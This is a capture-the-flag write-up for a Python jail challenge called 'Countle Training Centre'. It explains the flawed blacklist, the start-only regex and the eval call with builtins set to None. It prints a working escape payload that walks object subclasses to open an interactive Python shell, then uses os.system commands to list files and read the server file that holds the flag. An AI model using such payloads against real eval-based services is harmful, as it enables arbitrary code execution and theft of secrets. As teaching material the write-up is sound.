# [MISC] Countle Training Centre
## Description
The Countle World Championships is coming! Time to step up your game and start training! It's just a measly 1,000,000 puzzles a day, anyone can do it.

Author: k-hian feat. jro

nc challs.nusgreyhats.org 33401

## Approach
When we run the program, we are greeted with the following output:



It seems that we are given a Target Number and a few numbers to build mathematical equations from, as can be inferred when we visit the help menu:



If the challenge answer we send evaluates to the target number, we get a `Correct!` response and the program will display a new challenge, else it will terminate.

There is also an option to view a blacklist, which suggests that we might be able to supply input other than mathematical expressions:



Okay... so let's just create a script to automatically read a Target Number, craft a mathematical expression to evaluate to the Target Number, and submit it. Of course, I did not have any brain cells remaining ~7 hours into the competition so we will ask ChatGPT to do it for us. The code is provided in this repository, named `countle.py`.



After running the script for ~15 minutes I started to think that perhaps this was not the way to tackle this challenge, especially since having to solve 1,000,000 challenges would mean that I have to let the script run for hours. Furthermore, the script crashed at the 6042nd challenge.

### Source Code Analysis
Looking through the source code, the first thing I noticed was that the blacklist was not implemented properly. There were missing commas within the list, which results in strings being concatenated:



More points of interest that I noticed was the way input validation was performed:

```python
if (not match(r"[0-9+\-*/()]+", expr)):
    return (print(format("~RThat is not a valid expression. Read 'Help' for more info.~E")))
elif (len(expr) > 160):
    return (print(format("~RWhat are you doing with so many characters? Read 'Help' for more info.~E")))
for b in BLACKLIST + [str(t)]:
    if b in expr:
        return (print(format("~RBlacklisted word is not allowed: "+b+"~E")))
if (not checkAnswer(expr, t)):
    print(format(" ~Rtsk tsk tsk...\n Your answer is wrong!\n I'm dissapointed...~E"))
    exit(0)
else:
    print(format(" ~GCorrect!~E\n"))
    sleep(0.1) # rate limit
if (_ == 999999): 
    print(format(" ~GCongrats!! Here is your flag:\n   " + FLAG + "~E"))
    exit(0)
```

Firstly, the Regular Expression (RegEx) they used `[0-9+\-*/()]+` only matches the beginning of a string (our input). Secondly, there is no checking done to ensure that we only use the list of numbers they provide for each challenge. The only caveat is that we are not allowed to input the Target Number itself. We can perform a few tests to verify these observations:




Honestly, at this point I was pretty lost, and I was stuck until one of my team members asked if this was a `python jailbreak challenge` and I was like `wut?`. Afterwards, I decided to look into what Python Jailbreaking is.

### Python Jailbreak
A `Python jail` is a restricted environment where user input is executed as Python code, but with strict limitations in place. This is typically done using functions like `eval()` or `exec()` combined with restricted built-ins or filters.

A CTF challenge might allow us to type in a Python expression, but:
- Prevent you from importing modules,
- Block access to dangerous built-in functions like `eval()`, `exec()`, `open()`, or `__import__`,
- Remove the entire `__builtins__` namespace.

Jailbreaking in this context means bypassing the restrictions of the Python environment. Even when the usual functions are blocked, Python's introspective capabilities often leave alternate paths open. Players exploit object attributes, class hierarchies, and special dunder methods to regain access to restricted functionality — without using banned keywords directly.

### Perfoming PyJail Attacks 

The above signatures are present within this CTF challenge, as the blacklist restricts the function names and our `__builtins__` name space is set to `None`:

```python
def checkAnswer(expr, target):
    result = eval(expr, {'FLAG':"no flag for you", "__builtins__": None})
    return result == target
```

So what did I do to exploit this newfound knowledge? Like any beginner, I just ripped off some [PyJail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet), and tried every single entry, praying that it would somehow work (spoiler alert: it did).

Before we do that however, we need to ensure that our input passes the RegEx and does not include blacklisted words. To do this, our input can use the following format:

```python
1 if PAYLOAD else {int(target)-1} + 1
```

where `PAYLOAD` is whatever we rip off the cheatsheet :)

Eventually, my teammate found an entry that outputs something interesting:

```python
1 if ([s:=().__class__.__base__.__subclasses__,s()[158]()(),s()[-3].write.__globals__['interact']()]) else {int(target)-1} + 1
```



With some assistance from my AI friend ChatGPT, we can better understand what this payload actually does:

`().__class__.__base__.__subclasses__`
- `()` is an empty tuple
- `().__class__` → `<class 'tuple'>`
- `().__class__.__base__` → `<class 'object'>` (base of all classes)
- `().__class__.__base__.__subclasses__()` → returns a list of all currently loaded subclasses of object

`s := ...`
- This is the walrus operator (`:=`), used to assign and return a value in an expression
- We're assigning the subclasses function to `s`

`s()[158]()()`
- `s()[158]()` → creates an instance of the `code.InteractiveConsole` class
- `s()[158]()()` → runs it as a callable

`s()[-3].write.__globals__['interact']()`
- `s()[-3]` → accesses one of the last subclasses of `object`, possibly related to file-handling
- `write.__globals__` → retrieves the global scope associated with the `write` method
- `['interact']()` → retrieves the built-in `interact()` function, which starts an interactive Python shell

However, he could not progress further on so I took over. I noticed from the cheatsheet that we were were supposed to enter `code` and then `q` after being thrown into the Python help menu and so that was exactly what I did.



This gave us access to the Python REPL, where we can then run python code. So, the next logical step would be to list the files in the current directory, using the following payload:

```python
import os; os.system('ls')
```



From the source code, we know that the flag is stored as a variable in `server.py`, which is the `run` file on the server. So now we just need to read that file to reveal the flag.

```python
import os; os.system('cat run')
```



Flag: `grey{4_w0r1D_c1As5_c0Un7L3_p1aY3r_1n_0uR_mId5t}`

Scripts: [solve.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/solve.py)
[countle.py](https://raw.githubusercontent.com/0necloud/CTF-Writeups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Countle%20Training%20Centre/countle.py)
